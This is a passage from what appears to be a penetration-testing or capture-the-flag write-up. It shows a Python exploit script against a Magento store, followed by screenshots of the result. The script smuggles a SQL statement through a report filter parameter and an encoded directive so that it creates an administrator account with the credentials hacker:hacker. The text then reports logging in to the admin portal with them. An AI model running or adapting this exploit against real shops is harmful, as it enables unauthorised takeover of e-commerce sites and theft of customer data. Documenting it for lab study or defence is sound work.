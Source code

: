 ```python
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

# Put the nice readable queries into one line,
# and insert the username:password combinination
query = SQLQUERY.replace("\n", "").format(username="hacker", password="hacker")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds hacker:hacker".format(target)
else:
    print "DID NOT WORK"

```

### Result

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Created an account with administrator-level permissions</p></figcaption></figure>

**Upon navigating to the administrative portal, we login with our new credentials of&#x20;**<mark style="color:green;">**hacker:hacker**</mark>**, and we are granted with the following page:**&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Gained access to the Magento Administrative Portal</p></figcaption></figure>
